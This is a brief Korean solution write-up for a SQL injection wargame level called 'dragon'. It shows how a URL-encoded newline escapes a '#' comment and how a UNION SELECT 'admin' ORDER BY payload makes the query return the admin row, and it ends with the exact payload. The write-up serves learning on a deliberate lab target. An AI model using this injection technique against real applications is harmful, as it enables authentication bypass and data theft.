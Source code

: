 ## Q20. dragon _ 주석 탈출
<img src="/photo/prob_20.PNG" width="100%" height="100%" alt="problem"></img>

### 제한 문자: X <br> 문제 사항: id=admin 만들기
### 해결책

```
주어진 쿼리에 # 한 줄 주석 존재
=> where id='guest' 까지 인식
=> Hello guest 출력됨
=> 주석을 탈출해야함
but. 주석 탈출 방법 몰라서 어려움을 겪음

줄을 바꾸면 주석을 탈출할 수 있을것이라고 생각함
=> %0a 사용하자 Hello guest 사라짐
=> 주석에서 탈출했음을 알게됨
```
```diff
# 현재 쿼리문: where id='guest'# and pw=' '
```
```
현재 id 컬럼이 선택되어 있음
=> union select로 admin 만들어줌
```
```diff
# where id='guest'# and pw=' union select 'admin'
```
```
but. id='guest'에 의해 guest 출력됨
=> order by로 정렬 바꾸어줌
```
```
해결 쿼리문: where id='guest'# and pw=' union select 'admin' order by id asc-- '
```
### CERT <br> ?pw=%0a union select 'admin' order by id asc--+

